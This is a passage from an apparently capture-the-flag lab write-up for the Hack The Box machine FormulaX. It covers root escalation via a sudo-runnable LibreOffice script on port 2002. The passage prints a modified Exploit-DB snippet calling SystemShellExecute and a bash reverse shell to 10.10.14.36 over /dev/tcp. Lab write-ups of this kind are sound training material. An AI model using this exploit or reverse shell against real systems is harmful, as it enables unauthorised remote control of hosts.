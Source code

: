 `/usr/bin/office.sh` command could be ran with sudo privilege. 

Let's take a look at the bash file:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-60.png)

It seems like it is opening up port 2002.

Doing some research on this, we discovered [this exploit](https://www.exploit-db.com/exploits/46544).

Let's slightly modify the exploit so that it runs our maliciously crafted payoad instead of calc.exe:

```python
shell_execute = service_manager.createInstance("com.sun.star.system.SystemShellExecute")
shell_execute.execute("/tmp/shell.sh", '',1)
```

With the exploit transferred to the taget system, we will create `shell.sh` inside `/tmp` folder with the reverse shell payload inside of it:

```sh
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.36/1337 0>&1
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-52.png)

With both the exploit and shell.sh prepared on the system, let's run `/usr/bin/office.sh` to open up port 2002:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-61.png)






## References
- https://nvd.nist.gov/vuln/detail/cve-2022-24439
- https://github.com/gitpython-developers/GitPython/issues/1515
- https://community.librenms.org/t/adding-admin-users-on-librenms/20782
- https://www.exploit-db.com/exploits/46544
